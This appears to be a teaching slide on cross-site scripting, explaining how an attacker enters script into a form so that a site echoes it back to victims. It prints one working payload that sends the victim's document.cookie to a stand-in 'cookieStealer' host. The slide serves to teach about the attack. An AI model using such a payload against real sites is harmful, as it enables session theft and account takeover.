

# Cross-Site Scripting (XSS)
Attacker types this into text entry form:

<script>document.location='http://cookieStealer/cgi-bin/cookie.cgi?'+document.cookie</script>

Attacker hopes that the site will insert this into HTML that it later outputs, and then the victim’s browser will execute the script.